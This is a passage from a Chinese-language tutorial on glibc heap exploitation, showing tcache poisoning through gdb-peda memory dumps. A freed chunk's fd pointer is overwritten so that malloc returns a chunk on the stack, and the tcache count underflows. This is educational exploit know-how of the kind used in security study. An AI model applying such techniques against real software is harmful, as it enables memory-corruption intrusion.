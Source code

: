 ```text
```

然后修改 fd 指针指向栈上的地址 target：

```text
gdb-peda$ x/10gx (void *)p1-0x10
0x555555756660: 0x0000000000000000      0x0000000000000041  <-- chunk p1 [be freed]
0x555555756670: 0x00007fffffffdc80      0x4141414141414141    <-- fd pointer
0x555555756680: 0x4141414141414141      0x4141414141414141
0x555555756690: 0x4141414141414141      0x4141414141414141
0x5555557566a0: 0x4141414141414141      0x0000000000020961
```

接下来的第一次 malloc 将 chunk p1 的地方取出：

```text
gdb-peda$ x/10gx (void *)p1-0x10
0x555555756660: 0x0000000000000000      0x0000000000000041  <-- chunk p2
0x555555756670: 0x4242424242424242      0x4242424242424242
0x555555756680: 0x4242424242424242      0x4242424242424242
0x555555756690: 0x4242424242424242      0x4242424242424242
0x5555557566a0: 0x4242424242424242      0x0000000000020961
gdb-peda$ x/12gx 0x0000555555756000+0x10
0x555555756010: 0x0000000000000000      0x0000000000000000
0x555555756020: 0x0000000000000000      0x0000000000000000
0x555555756030: 0x0000000000000000      0x0000000000000000
0x555555756040: 0x0000000000000000      0x0000000000000000
0x555555756050: 0x0000000000000000      0x0000000000000000
0x555555756060: 0x00007fffffffdc80      0x0000000000000000  <-- entries
```

可以看到 tcache 的 entries 被修改为我们伪造的 fd 地址。

第二次 malloc，虽然 tcache bin 的 counts 为 0，但它并没有做检查，直接在 entries 指向的地方返回了一个 chunk：

```text
gdb-peda$ x/10gx (void *)p3-0x10
0x7fffffffdc70: 0x0000555555756670      0x00007fffffffdc80  <-- chunk p3
0x7fffffffdc80: 0x4242424242424242      0x4242424242424242
0x7fffffffdc90: 0x4242424242424242      0x4242424242424242
0x7fffffffdca0: 0x4242424242424242      0x4242424242424242
0x7fffffffdcb0: 0x4242424242424242      0x0000000000000000
```

于是我们得到了一个在栈上的 chunk。

有趣的是 tcache bin 的 counts 居然产生了整数溢出（`0x00-1=0xff`）：

```text
gdb-peda$ x/12gx 0x0000555555756000+0x10
0x555555756010: 0x0000000000ff0000      0x0000000000000000
0x555555756020: 0x0000000000000000      0x0000000000000000
0x555555756030: 0x0000000000000000      0x0000000000000000
0x555555756040: 0x0000000000000000      0x0000000000000000
0x555555756050: 0x0000000000000000      0x0000000000000000
0x555555756060: 0x00000000000000c2      0x0000000000000000
```
